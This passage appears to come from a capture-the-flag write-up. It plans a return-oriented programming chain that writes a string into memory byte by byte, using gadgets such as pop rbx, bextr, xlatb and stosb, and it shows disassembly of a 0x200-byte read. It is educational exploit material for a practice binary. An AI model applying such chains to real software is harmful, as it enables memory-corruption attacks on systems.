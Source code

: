 We have to do that 8 times.

## Building a ropchain

1. Set rbx to the letter addres-11
2. Load al
3. Load rdi to the target
4. Write al to rdi

We have 0x200 bytes for the ropchain

``` sh
│           0x00000922      ba00020000     mov edx, 0x200              ; size_t nbyte
│           0x00000927      4889c6         mov rsi, rax                ; void *buf
│           0x0000092a      bf00000000     mov edi, 0                  ; int fildes
│           0x0000092f      e83cfeffff     call sym.imp.read           ;
```

Two ways for set `rbx`:

The first:
```
set_rbx(addr_letter, cur_al_value) :
    pop_rbx6
    addr_letter - cur_al_value
    deadbeef * 5
```
⇒ Use  7 words

The second:
```
set_rbx(addr_letter, cur_al_value):
    bextr_gadget
    64
    addr_letter-0x3ef2 - cur_al_value
```
⇒ Use 3 words

To load al:
```
load_al(addr_letter) :
    set_rbx(addr_letter)
    xlatb
```
⇒ Use 2 words

And to write it:
```
write_al_to_addr(address)
    pop rdi
    address
    g_stosb
⇒ Use 3 words
```

Finally we have to do this for each letter's addr, and each al value:
